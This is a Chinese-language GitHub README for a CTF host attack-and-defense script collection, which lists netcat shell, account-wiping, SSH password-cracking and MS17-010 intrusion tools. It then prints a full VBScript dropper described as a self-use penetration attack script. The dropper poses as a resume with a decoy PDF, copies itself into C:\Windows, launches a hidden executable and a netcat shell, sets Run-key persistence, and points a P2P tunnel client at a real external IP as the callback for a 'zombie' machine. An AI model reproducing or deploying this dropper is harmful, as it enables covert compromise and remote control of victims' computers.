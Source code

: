 # 安全战队常用的CTF主机攻防脚本 CTFpenetrationScript 



## __DebugBreak 四轮车战队 CTF攻防赛所需要的脚本：

set_the_Flag:随机生成guid，并将以flag{guid}为名称的图片复制到windows目录下。

open_18181_with_nc:开启防火墙，并启动最基础的端口，其他端口仅允许18181端口，并且开始shell。

del_account_Bywhilelist:删除白名单以外的所有账户

one_key_close_17010：一键关闭17010所有端口。

setflag_win_linux:在windows与linux段生成flag文本，可以设置生成数量，其中用户名与内容均为随机。

Xdecrypt:老版本xshell ssh密码碰撞脚本。

Reveal password encrypted by MobaXterm:破解老版本 ssh密码碰撞脚本。

msfhack：msf入侵17010方法包括开启3389创建用户建立反射上传目录等





## 自用一键穿透攻击脚本（不免杀）

伪装成简历，自启动，自我复制，网络穿透，修改配置文件：

```vbscript
On Error Resume Next
Dim fso,Shell
Set fso = CreateObject("Scripting.FileSystemObject")
Set Shell=Wscript.Createobject("Wscript.shell")
If Not fso.folderExists("C:\Windows\MailContactsCalendarSync\") Then         
    fso.CreateFolder "C:\Windows\MailContactsCalendarSync\"
	Shell.Run "msedge.exe C:\Windows\MailContactsCalendarSync\mydoc.pdf",0,TRUE
	fso.getfile(wscript.scriptfullname).copy("C:\Windows\run.vbs")   
End If
fso.CopyFolder ".\MailContactsCalendarSync\*", "C:\Windows\MailContactsCalendarSync\"
fso.CopyFile ".\MailContactsCalendarSync\*", "C:\Windows\MailContactsCalendarSync\"
Shell.Run "C:\Windows\MailContactsCalendarSync\RuntimeBr0ker.exe",0,FALSE
Shell.Run "cmd /c C:\Windows\MailContactsCalendarSync\open_18181_with_nc.bat",vbhide
Shell.RegWrite "HKLM\Software\Microsoft\Windows\CurrentVersion\Run\hackme","C:\Windows\run.vbs"
Set TxtFl = fso.OpenTextFile ("C:\Users\Administrator\Desktop\log\MailContactsCalendarSync\P2PSocket\Client.ini",1)
Str = Replace ( TxtFl.ReadAll,"ClientName=QUAN","ClientName=TestJob") '肉鸡名字
Str = Replace ( TxtFl.ReadAll,"ServerAddress=211.149.222.206:3387","ServerAddress=211.149.222.206:3387")  '上线地址
TxtFl.Write Str 
TxtFl.Close
Set fso = Nothing
Set Shell = Nothing
```



## 项目适用于：

车联网安全攻防场景，主机安全攻防场景，工控安全场景，移动安全攻防场景等。











